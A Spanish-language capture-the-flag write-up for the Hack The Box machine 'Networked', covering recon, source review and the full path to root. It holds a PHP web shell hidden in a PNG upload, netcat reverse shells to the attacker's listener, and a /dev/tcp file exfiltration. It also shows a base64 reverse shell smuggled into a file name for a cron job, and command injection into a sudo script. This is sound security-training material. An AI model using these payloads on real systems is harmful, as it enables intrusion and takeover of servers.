## Box Info

| Name                  | Networked        | 
| :-------------------- | ---------------: |
| Release Date          | 24 Aug, 2019     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

```zsh
ping -c 3 10.10.10.146
PING 10.10.10.146 (10.10.10.146) 56(84) bytes of data.
64 bytes from 10.10.10.146: icmp_seq=1 ttl=63 time=177 ms
64 bytes from 10.10.10.146: icmp_seq=2 ttl=63 time=177 ms
64 bytes from 10.10.10.146: icmp_seq=3 ttl=63 time=176 ms
```

Maquina Linux

## Recon

```zsh
nmap -sCV -p 22,80 -oN targeted 10.10.10.146

# Nmap 7.95 scan initiated Thu Jun 26 17:10:01 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 22,80 -oN targeted 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

```
http://10.10.10.146/
```


### WhatWeb

Identifcar tecnologias e informacion sobre la web.

```zsh
whatweb http://10.10.10.146/

http://10.10.10.146/ [200 OK] Apache[2.4.6], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.4.16], IP[10.10.10.146], PHP[5.4.16], X-Powered-By[PHP/5.4.16]
```

## Directory Scan

- Gobuster

```zsh
gobuster dir -u http://10.10.10.146/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
```



Tenemos 2 paginas web, una para subir archivos y otra para visualizar imagenes que se relaciona con la pagina anterior



Y un archivo tar que nos lo vamos a descargar


Podemos ver que son las 4 paginas web que encontramos con gobuster, de esta manera podemos ver el codigo de alguno de ellos para ver si encontramos alguna vulnerabilidad.

- Upload.php

```zsh
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

- Lib.php

```php
<?php

function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}

function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;

```

- photos.php

```php
<html>
<head>
<style type="text/css">
.tg  {border-collapse:collapse;border-spacing:0;margin:0px auto;}
.tg td{font-family:Arial, sans-serif;font-size:14px;padding:10px 5px;border-style:solid;border-width:1px;overflow:hidden;word-break:normal;border-color:black;}
.tg th{font-family:Arial, sans-serif;font-size:14px;font-weight:normal;padding:10px 5px;border-style:solid;border-width:1px;overflow:hidden;word-break:normal;border-color:black;}
.tg .tg-0lax{text-align:left;vertical-align:top}
@media screen and (max-width: 767px) {.tg {width: auto !important;}.tg col {width: auto !important;}.tg-wrap {overflow-x: auto;-webkit-overflow-scrolling: touch;margin: auto 0px;}}</style>
</head>
<body>
Welcome to our awesome gallery!</br>
See recent uploaded pictures from our community, and feel free to rate or comment</br>
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$ignored = array('.', '..', 'index.html');
$files = array();

$i = 1;
echo '<div class="tg-wrap"><table class="tg">'."\n";

foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;
  $files[$file] = filemtime($path. '/' . $file);
}
arsort($files);
$files = array_keys($files);

foreach ($files as $key => $value) {
  $exploded  = explode('.',$value);
  $prefix = str_replace('_','.',$exploded[0]);
  $check = check_ip($prefix,$value);
  if (!($check[0])) {
    continue;
  }
  // for HTB, to avoid too many spoilers
  if ((strpos($exploded[0], '10_10_') === 0) && (!($prefix === $_SERVER["REMOTE_ADDR"])) ) {
    continue;
  }
  if ($i == 1) {
    echo "<tr>\n";
  }

echo '<td class="tg-0lax">';
echo "uploaded by $check[1]<br>";
echo "";
echo "</td>\n";


  if ($i == 4) {
    echo "</tr>\n";
    $i = 1;
  } else {
    $i++;
  }
}
if ($i < 4 && $i > 1) {
    echo "</tr>\n";
}
?>
</table></div>
</body>
```

- Donde se sube las imagenes
```
define("UPLOAD_DIR", "/var/www/html/uploads/");
```

- Valida el contenido, peso, nombre y la extension.

```
 if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
```

- MIME Validation

```zsh
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
```

[List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)



Descargaremos una imagen PNG y colocaremos un pequeño script en php para obtener una webshell

```php
<?php system($_GET['cmd']); ?>
```



Subiremos el archivo pero no podemos ejecutar la llamada cmd, entonces intentaremos usar la extension php:

`file.php.png`



```zsh
nc 10.10.14.20 4444 -e /bin/bash
```



`cat /etc/httpd/conf.d/php.conf`

```php
AddHandler php5-script .php
AddType text/html .php
DirectoryIndex index.php
php_value session.save_handler "files"
php_value session.save_path    "/var/lib/php/session"
```

Esto simplemente le indica a PHP que maneje los archivos que terminan en `.php` o que tienen `.php` pasándolos al intérprete PHP5.

`php --version PHP 5.4.16`

[PHP and Apache SetHandler vs AddHandler](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)



## Guly Shell

Necesitamos ser usuarios legítimos para leer el archivo user.txt



También podemos ver una tarea cron

```bash
cat check_attack.php > /dev/tcp/10.10.14.20/2323
```

```zsh
nc -lvnp 2323 | cat -l php
```

```php
*/3 * * * * php /home/guly/check_attack.php

bash-4.2$ cat check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

Guly ejecuta un script cada 3 minutos donde elimina de manera automatizada un archivo sin las extension correspondiente con el comando: `rm -rf $logopath` en este caso 
`/var/www/html/uploads/10.10.14.20.png` <- Esto nos permite abusar del parametro name del archivo o "**input**" donde el comando `rm -rf` solo borrara `a` y ejecutara el resto de comando a partir del `;` (a; whoami) (a; cat /etc/passwd). 

Reverse shell to base64

```zsh
echo -e "nc -e /bin/bash 10.10.14.20 443" | base64
```

```zsh
touch "a; {BASE64} | base64 -d | bash"
```



Solo es esperar los 3 minutos que se ejecuta la instruccion para poder ganar la shell como guly.



## Privilege Escalation

```
sudo -l
```



`cat changename.sh`

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

Esta parte es vulnerable a command injection, es decir, si yo concateno un espacio y un comando podria ejecutarlo como si fuese parte del codigo

```
 read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
```



```zsh
sudo /usr/local/sbin/changename.sh
```

```bash
interface NAME:
test whoami
interface PROXY_METHOD:
test id
interface BROWSER_ONLY:
test cat /etc/passwd
interface BOOTPROTO:
test ip a
```

- Output

```
root
uid=0(root) gid=0(root) groups=0(root)
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
guly:x:1000:1000:guly:/home/guly:/bin/bash
saslauth:x:998:76:Saslauthd user:/run/saslauthd:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
```

Ahora volveremos a ejecutar el script agregando un `/bin/bash` para obtener una shell como root

```bash
sudo /usr/local/sbin/changename.sh
```

```
interface NAME:
test whoami
interface PROXY_METHOD:
test /bin/bash
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
root
whoami
root
pwd
/etc/sysconfig/network-scripts
cd /root/
ls
root.txt
cat root.txt
```


